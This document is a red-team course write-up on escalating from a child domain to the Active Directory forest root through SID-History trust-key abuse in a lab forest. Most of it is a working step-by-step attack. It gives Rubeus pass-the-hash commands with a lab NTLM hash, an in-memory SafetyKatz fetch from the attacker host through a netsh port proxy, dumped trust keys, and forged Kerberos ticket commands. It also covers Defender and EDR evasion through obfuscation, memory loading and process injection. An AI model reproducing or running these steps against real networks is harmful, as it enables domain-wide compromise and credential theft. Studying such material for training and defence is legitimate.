CRTE - Certified Red Team Expert
Cross Domain attacks - Child To Forest Root - SID-History Trust Key Abuse
Escalating privileges from a child domain to the root forest in an Active Directory environment relies on exploiting trust relationships between domains. A forest is considered the ultimate security boundary, but if we compromise a child domain, we can leverage interdomain trusts to escalate our access and take control of the entire forest.
When a client from a child domain needs to access a resource in the forest root, the authentication process follows a structured path.
The client first requests a Ticket Granting Ticket (TGT) from its own domain controller (DC). Using this TGT, it requests a service ticket for the desired resource, but since the resource is in another domain, the DC issues an inter-realm TGT, also known as a referral ticket, encrypted with a trust key shared between the two domains.
The client then presents this referral ticket to the forest root DC, which only validates if it can decrypt the ticket. If decryption succeeds, it issues the requested service ticket, allowing the client to access the resource.
The trust key is the central mechanism that enables authentication across domains. Since this key is shared, if we compromise the child domain's DC, we can extract the trust key and use it to forge authentication tickets. This allows us to impersonate users in the root domain and escalate our privileges. One powerful method is forging an inter-realm TGT with an injected SID history attribute. By including the SID of a privileged group in the forest root, such as Enterprise Admins, we effectively gain the same level of access as a top-tier administrator.
The practical execution of this attack involves several steps.
First, we extract the trust key from the child domain’s DC, typically by running a DCSync attack with tools like SafetyKatz.
Once we have the trust key, we use it to forge an inter-realm TGT, embedding the SID of the Enterprise Admins group into the ticket.
This forged ticket can then be used to request access to critical resources in the forest root. Using Rubeus, we request a service ticket for a target resource such as the file system (CIFS) on the root DC. Since the ticket appears valid and carries the SID of an enterprise administrator, we gain unrestricted access.
This attack path highlights a fundamental weakness in Active Directory trust relationships. The forest root DC does not verify whether the user actually belongs to the Enterprise Admins group, it only checks if the ticket is properly encrypted with the trust key. As a result, the attack remains largely undetected, making it a high-impact technique.
Protecting against such attacks requires strict monitoring of domain trust relationships, minimizing the exposure of highly privileged accounts, and securing domain controllers to prevent unauthorized access. A single compromised domain in a forest can lead to the total compromise of the entire environment. Simply changing passwords is not sufficient, as an attacker with the trust key can continue to forge tickets and escalate privileges.
Ultimately, by understanding how interdomain authentication works and where its weaknesses lie, we can exploit trust relationships to escalate from a child domain to the forest root. This attack path demonstrates how a seemingly isolated domain compromise can quickly escalate into full control of an entire Active Directory forest.
Enumerating Trusts with PowerView
For this attack, we should start our enumeration to better understand how is our target organization configured based on trusts. Assuming that we have compromised our target child domain, our next stop should be to escalate our privilege all the wait up to the forest root (Child to Parent Domain). We can do our enumeration using PowerView.
Let’s start by calling our PowerShell session using InvisiShell, this will help us to bypass all PowerShell Defense Mechanism before we call the new PowerShell process.
RunWithRegistryNonAdmin.bat

then we import PowerView and make our enumeration.
Import-Module .\PowerView.ps1

As we can see above our just compromised Child Domain (us.techcorp.local), has a BiDirectional Trust with the root domain (techcorp.local).
Source and Target Names
- SourceName: The name of the source domain, which is
us.techcorp.local. - TargetName: The name of the target domain, which is
techcorp.local.
Trust Type and Attributes
- TrustType: The type of trust, which is
WINDOWS_ACTIVE_DIRECTORY, indicating that it is a Windows Active Directory trust. - TrustAttributes: The attributes of the trust, which are
WITHIN_FOREST, indicating that the trust is within the same forest.
Trust Direction
- TrustDirection: The direction of the trust, which is
Bidirectional, indicating that the trust is bidirectional, allowing both domains to access resources in each other.
Now that we have done the enumeration and we know exactly how is the Child/Parent domain trust configured, let’s carry on.
We won’t be doing this attack directly from de Domain Controller. We will be executing everything remotely from our Target machine. The only think we need from our Domain Controller is the Trust Key.
User : Administrator
NTLM : 43b70d2d979805f419e02882997f8f3f
Let’s access the DC and do the DCSync to get this Trust Key.
ArgSplit.bat

C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:administrator /rc4:43b70d2d979805f419e02882997f8f3f /opsec /force /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

Mapping Shares to local system
On the new elevated session as Domain Admin let’s start by Mapping shares from remote servers to our local system to allow seamless access to the target machine's files as if they were stored locally.
This is useful for tasks like transferring payloads, extracting sensitive data, or staging tools for further exploitation. We will use this approach to be able to transfer files to our target US-DC.
Advantages:
- Convenience: It simplifies interaction with the target's file system, enabling easy copying, reading, or modification of files.
- Efficiency: File transfers and tool deployments are faster and more straightforward compared to manual uploads or downloads.
- Persistence: The mapped drive can remain accessible for the session, allowing continuous interaction without repeatedly authenticating.
- Stealth: Uses built-in Windows functionality, making the activity less suspicious to some monitoring tools.
> **Note: If your mapping does not work on the one-liner passing the password on it, it’s probably due to special characters on the credential and you may get error Password i not correct.
To bypass this, you can simply do the whole mapping command and put the password after it is asked.**
net use x: \\US-DC\C$\Users\Public /y

We could successfully map drive x to US-DC host on C:\Users\Public directory.
Let’s now Copy our loader into our target using xcopy.
echo F | xcopy C:\AD\Tools\Loader.exe x:Loader.exe /y

the echo F we pass in the beginning is to tell prompt that we are transferring a file.
After uploading our loader into the target, we can now delete our mapped driver x since we don’t need it anymore.
net use x: /delete

What If we simply download and execute Safetykatz in memory now using our Loader.exe on the target machine?
We could simply run SafetyKatz calling it straight from our attacking IP, but we would easily be caught by Defender or any sort of defense mechanism in place on our network.
Let’s highlights the importance of my statement above.
Evading detection by security tools when performing actions such as credential dumping with tools like SafetyKatz can be a trigger to compromise all our Red Team operation and let me tell you why.
- Direct Execution is Easily Detected: Running tools like SafetyKatz directly from an attacker's IP address makes it easy for security tools to detect the activity. Security mechanisms, such as Windows Defender and Microsoft Defender for Endpoint (MDE), are designed to identify known malicious tools, their signatures, and their behaviors.
- Signature-Based Detection: Security tools often use signature-based detection to identify known malicious software. If SafetyKatz is run directly, its known signatures can trigger alerts.
- Behavior-Based Detection: Security tools also monitor the behavior of programs. Running SafetyKatz directly, especially when it tries to access the memory of the LSASS process, can trigger behavioral-based detections.
- Network Traffic Monitoring: When SafetyKatz is executed from an external IP, it generates network traffic that can be monitored and flagged by security tools.
- Downloading from External Sources: Downloading an executable from a remote machine is considered suspicious and can trigger behavior-based detection by Windows Defender.
- Process Creation and Command Line Logs: Process creation logs and command line logs can reveal suspicious activity, such as the execution of known hacking tools with particular arguments.
- LSASS Process Access is a Red Flag: Tools like SafetyKatz attempt to access the LSASS process to extract credentials from memory. This is a highly suspicious activity that will easily be detected and is a major indicator of a malicious attack.
- Bypassing Detection Mechanisms: To avoid detection, attackers need to implement various bypass techniques, including:
In summary, running SafetyKatz directly from an attacking IP is highly likely to be detected by most modern security tools. Therefore, attackers use advanced techniques like obfuscation, memory loading, process injection, and port forwarding to evade detection. The course material emphasizes these techniques in order to learn about these types of attacks and to improve red team Opsec.
- Obfuscation: Obfuscating the tool's code and arguments to avoid signature-based detection. This can involve renaming variables, removing comments, and encoding parameters.
- Memory Loading: Loading the tool into memory without writing it to disk, using a tool like a loader, avoids file-based detection.
- Process Injection: Injecting shellcode into a trusted process can allow covert execution without using standard API calls that are heavily monitored.
- Port Forwarding: Forwarding network traffic from the local machine to a student VM can mask the attacker's IP address and evade detection.
- Using Built-in Tools: The course emphasizes using built-in tools as much as possible, as they are less likely to be flagged by security software. For example, using
netshto set up port forwarding or built-in Windows utilities over custom tools. - Mimicking Normal Behavior: Downloading tools using a web browser instead of a command-line tool, for example, can help blend in with normal network activity.
Portforwarding to bypass EDR
To avoid being caught by any defensive mechanism, we can simply create a PortForwarding on the target machine then call SafetyKatz using it’s localhost IP.
winrs -r:US-DC cmd

netsh interface portproxy add v4tov4 listenport=8080 listenaddress=127.0.0.1 connectport=80 connectaddress=192.168.100.163

1. netsh interface portproxy add v4tov4:
netsh interface portproxy: This is the part of thenetshutility that deals with port forwarding. It allows forwarding TCP traffic from one IP/port combination to another.add: Specifies that you're adding a new forwarding rule.v4tov4: Indicates that both the listening and connecting addresses use IPv4.
2. listenport=8080:
- The port on the local machine (target machine) where the service will "listen" for incoming connections.
- In this case, the machine will listen on port
8080.
3. listenaddress=127.0.0.1:
- The IP address on the local machine where the service will listen for connections.
0.0.0.0means it will listen on all network interfaces available on the machine (e.g., public, private, or loopback IPs).
4. connectport=80:
- The port on the remote machine (Out Attacking Machine) to which traffic will be forwarded.
- In this case, port
80(commonly used for HTTP).
5. connectaddress=192.168.100.163:
- The IP address of the remote machine (Our Attacking Machine).
This port forwarding setup redirects traffic received on port 8080 from our compromised machine to port 80 on our attacking macchine (192.168.100.163), which acts as a bridge.
We can check this portforwarding with the following command:
netsh interface portproxy show all

We can now user our Loader.exe on our target to call SafetyKatz from memory.
Hosting SafetyKatz
We should be hosting our SafetyKatz in our attacking host. This will be requested by our Target US-DC.

Disabling Defender
Before we carry on with our target host, we need to disable our firewall on our side. This way we can host the file on our machine with no issues, without having the firewall complaining.

Now let’s first start by encoding our Safetykatz argument (lsadump::trust) using ArgSplit.bat file and copy/paste the encoded argument into US-DC host where we will be running SafetyKatz.
ArgSplit.bat

We should now be able to execute SafetyKatz on the DC and request for the Trust Key
C:\Users\Public\Loader.exe -Path http://127.0.0.1:8080/SafetyKatz.exe -args "%Pwn% /patch" "exit"

`bash
mimikatz(commandline) # lsadump::trust /patch
Current domain: US.TECHCORP.LOCAL (US / S-1-5-21-210670787-2521448726-163245708)
Domain: TECHCORP.LOCAL (TECHCORP / S-1-5-21-2781415573-3701854478-2406986946)
[ In ] US.TECHCORP.LOCAL -> TECHCORP.LOCAL
* 2/9/2025 9:07:35 PM - CLEAR - b8 1f db a4 25 5e e7 23 af ae fc c3 e0 93 b2 59 5d 62 8e c9 fd 26 27 48 4f b0 63 66 98 05 62 b0 63 3b 13 ee e2 9d 86 86 4b cb 73 6e 01 67 46 08 db 33 14 d5 d4 a9 ab c8 ab c5 84 c3 f6 f5 cf 1b 36 99 b9 d9 4a 6c 95 f1 ba 79 4a 5e 0e 6e b0 2c 31 99 2b 5f 64 b9 bd 4b 30 8b e3 d8 e4 4b 0f 41 b3 98 81 0d ae ec 94 b4 09 d5 6f f7 af 30 97 a0 86 63 b4 56 e8 50 d8 db d2 76 5c 4e f0 84 72 15 24 6a d0 38 5c 4e 40 44 db 49 5d 2e 8a 41 28 b2 f8 0b c5 f1 e9 f1 ff 06 65 55 66 44 46 92 9c 44 47 04 d3 58 b6 f4 4e af 81 63 95 87 78 38 e3 a4 59 30 62 ac 3b f9 e7 66 46 3d 52 2c 13 64 19 80 de 83 9f 3a b0 83 cd c2 0d bc 84 76 31 d0 ab 35 e8 77 65 65 34 3a e4 1f 49 03 77 6c 0b 3c 19 81 53 92 ef 6c 7b ec 1d b8 f4 bd 5b 27 fb 06 77 ef
* aes256_hmac 3b92523986591e46dcee08256f1bcf39d3703b0067cdf83b70da3edee646f09b
* aes128_hmac 558b8112b4c2cf0b07bda172b744f827
* rc4_hmac_nt 9da3da8caa23291e781530a3f8d34f68
`
Forging the Ticket Inter-Real Golden Ticket
With this Trust Key we can now forge a ticket with SID History of Enterprise Admins.
In the first step, we are generating a Silver Ticket using the AES256 trust key. This ensures better stealth, as AES256 keys are less likely to trigger security alerts compared to RC4. We are crafting a Kerberos service ticket for LDAP under the us.techcorp.local domain, impersonating the Administrator account. Additionally, we are adding the Enterprise Admin SID (S-1-5-21-2781415573-3701854478-2406986946-519) to the ticket, leveraging SID History to escalate privileges to our parent domain techcorp.local. By including /opsec, we reduce potential detection by security tools.
Back to our attacking machine, we should be able to forge this ticket. We should encode the Rubeus argument(silver) with ArgSplit.bat and do the copy/paste into our session were Rubeus will be executed.
ArgSplit.bat

Using Rubeus will be using silver flag for that.
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\rubeus.exe -args %Pwn% /user:administrator /ldap /service:krbtgt\us.techcorp.local /aes256:3b92523986591e46dcee08256f1bcf39d3703b0067cdf83b70da3edee646f09b /opsec /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /nowrap

`bash
doIFmDCCBZSgAwIBBaEDAgEWooIEczCCBG9hggRrMIIEZ6ADAgEFoRMbEVVTLlRFQ0hDT1JQLkxPQ0FMoiYwJKADAgECoR0wGxsGa3JidGd0GxF1cy50ZWNoY29ycC5sb2NhbKOCBCEwggQdoAMCARKhAwIBA6KCBA8EggQLOHhSjHfhesxIXrsa6Qt2aR/edvHLPChz9u7yr9N8HFBobGhCukTNi0mNk6WNfq82zVBy6y9iMlu/mrYEtB42apWrGv/qTvI15OU7MWRoCgQf8cH/iPZ002doSK4FXxc2WrmAWUttKLTP3seuhvyKCc9jrMS1ZWKoNj2Y3avSSJzdkvU89TkXecCcLPizj3h0lb7Qjk833P1eaM52c+AuCo90jtTc+MB66O2hOhASMHU4bV8TAqZogCYH8J5i1RfwTscZeLzHJxQmA7stKPjV0Eb65vwb9dM0vSrRvSoafAtn0uVnEyuW+r6BQ2PonIU9WWbjO/Nxidn1ZxEQwc/r+2fXd/DjgGle2CM/lt1fQ37yTsXH6PBOSOGk7uqcYHTaHb2w2MxgUEZXvmJf8AIVE1aOjskU1Xw57Iyj/PGD2DdHvA2Ml6ZH7hD2R2tO89r0InNtdJEL7SEyzaE5+1z3q9UTVC0IRuwBCkbJKF+MJK8wp9Gl51UjDUl4+T36QV1L8UzYGk+gAaHVxuKMfHwNxf/JE+Pgjl9hHIfrAcOWuOTNiIJO72CYStyeaJoRGfW+j4GcASi8LH8z+ncLa3FF9EFARF8MGZKXkRqUvN6duGPx5jPmXQD7UkhmLe+pUsuPLdF5wVYcBNEzzxpHIBLeJmS6I2Y8W9uxzrU13+HoCB7UlSfbIJ4k7uUjEQHWSXVjemyHRmkI6tpVH+xRtdJmOdvgdKBd2ky/5PgIzKTBDRmu/EPvX6/xhuMNzjLLbJG/xFCJ3EapPe+tYiWQNSehdNOQGkm1kkccSzTYabaHpTmJcO4IrJpV8fIRxI0dr8k23WOR8HxwEdTNGI0L9Y+v9uUIziWgJn37INyJlXM9myf7dJynSDT//vhd4/phm8z6kU8WnOk6HTi9DX1+c7/qPuGTqQZSRAxGqWwScKF5wjSYNHNAlpHF2J8zCFs2H6ccwJC9a+yZuQHLgPZI8h6zxs4lik65/UMugX7OQyvndulbyHxTkNXsSiPqOFTLIKn5F/VAz52lmg+u0OzgHcYkhb4Y1qXhm88CouCL0j8cIlh0AI2xDx7W3rXrAEs1tjEuy/BulOlW62TriuFA04w8u2jihOBKxs+WaoiUBxMJGlIXJACK2jEgphxaBRK3lECTr6ilfbTO4uw6rvoT49/j+XX9lWGW7sUC1NMY9rStL8dMDFAMnzr+Gpo/k9jZTIW4QiJMMAsy2eKi3pztsr29Un/1zBYQdIbUNMLthR0qj+hKGSPmQV/Wy96NFOMU6RsgM0l37a2OpWCoIy6MyzAF88dRjprDbRXr7oZEYbZ/gMTwOgj5+lAEhggwt/icZE+LJzNi4R28n/JuMv3E1a2qz5JWuWBypv9RgT8Xo4IBDzCCAQugAwIBAKKCAQIEgf99gfwwgfmggfYwgfMwgfCgKzApoAMCARKhIgQgg0HH68WcMYaIeBqkNDZ2OugAXSqHVTi4M5QQxgUq/02hExsRVVMuVEVDSENPUlAuTE9DQUyiGjAYoAMCAQGhETAPGw1hZG1pbmlzdHJhdG9yowcDBQBAoAAApBEYDzIwMjUwMjExMDAxODQ4WqURGA8yMDI1MDIxMTAwMTg0OFqmERgPMjAyNTAyMTExMDE4NDhapxEYDzIwMjUwMjE4MDAxODQ4WqgTGxFVUy5URUNIQ09SUC5MT0NBTKkmMCSgAwIBAqEdMBsbBmtyYnRndBsRdXMudGVjaGNvcnAubG9jYWw=
`
Requesting a Service Ticket
In the second step, we are injecting the forged ticket into our session and using it to authenticate against the CIFS (file sharing service) on techcorp-dc.TECHCORP.LOCAL, which belongs to the root forest domain. This allows us to establish a foothold at the forest level while still using the forged ticket from the child domain (us.techcorp.local). By passing the ticket (/ptt), we ensure that all subsequent Kerberos authentication requests use this ticket, granting us high-level access in the root domain.
We should encode the Rubeus argument(asktgs) with ArgSplit.bat and do the copy/paste into our session were Rubeus will be executed.
ArgSplit.bat

Running Rubeus.
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /service:CIFS/techcorp-dc.TECHCORP.LOCAL /dc:techcorp-dc.TECHCORP.LOCAL /ptt /ticket:


As we can see above we were able to Request the service ticket and inject it into our current session. We can also double check this with klist command.
klist

Now that we were able to inject that, we can simply check files in the Enterprise Domain Controller using dir command.
dir \\techcorp-dc.techcorp.local\C$

Note that for remote access like WinRS or WinRM we should request another Service ticket like HTTP and inject it again.
Here’s a table of services that can be forged for Kerberos tickets along with the native tools or protocols that rely on these services. This information is critical for targeting specific resources during post-exploitation:
| Service (SPN) | Purpose/Protocol | Native Tool/Access Method |
|---|---|---|
| HTTP | Web-based access, including WinRM/WinRS | winrs, PowerShell Remoting (WinRM) |
| HOST | General host-based services | WMI, SMB, Remote Service Management |
| CIFS | File sharing over SMB | net use, dir \\share\folder, File Explorer |
| RPCSS | Remote Procedure Call services | WMI, DCOM, RPC-based tools |
| MSSQLSvc | Microsoft SQL Server | SQL Management Studio, ODBC, SQLCMD |
| LDAP | Directory access over LDAP | ldapsearch, dsquery, AD enumeration tools |
| SMTPSVC | SMTP service for mail servers | Sending emails via Exchange or SMTP relay |
| IMAP | Email access over IMAP | Email clients (e.g., Thunderbird, Outlook) |
| POP3 | Email access over POP3 | Email clients |
| FTP | File transfer over FTP | ftp client, FileZilla, command-line FTP |
| RDP | Remote Desktop Protocol | MSTSC (Remote Desktop Connection) |
| WSMAN | Windows Remote Management (WinRM) | PowerShell Remoting, Invoke-Command |
| TERMSRV | Terminal Services | RDP sessions, RemoteApp |
| DNS | Domain Name System | DNS queries, nslookup, DNS-based enumeration |
| SHELL | Remote Shell Protocol | Telnet-like access |
| NFS | Network File System | Mounting NFS shares |
| SMTP | Mail relay using SMTP | Sending email via SMTP |
Explanation of Key Examples:
- WinRM/WinRS (Service: HTTP)
- If we need to use
winrsorInvoke-Command, we must forge a ticket for the HTTP service on the target machine. - WMI (Services: HOST, RPCSS)
- WMI uses HOST and RPCSS to manage remote processes and interact with the Windows Management Instrumentation service.
- SMB/Shared Drives (Service: CIFS)
- Accessing file shares or interacting with
net userequires a forged ticket for the CIFS service. - SQL Server (Service: MSSQLSvc)
- For accessing databases through SQLCMD or Management Studio, we need a ticket for the MSSQLSvc service.
- RDP (Service: TERMSRV)
- Forging a ticket for TERMSRV allows Remote Desktop Protocol (RDP) sessions to the target.
- LDAP (Service: LDAP)
- Any Active Directory enumeration over LDAP (e.g.,
ldapsearch) requires a ticket for LDAP.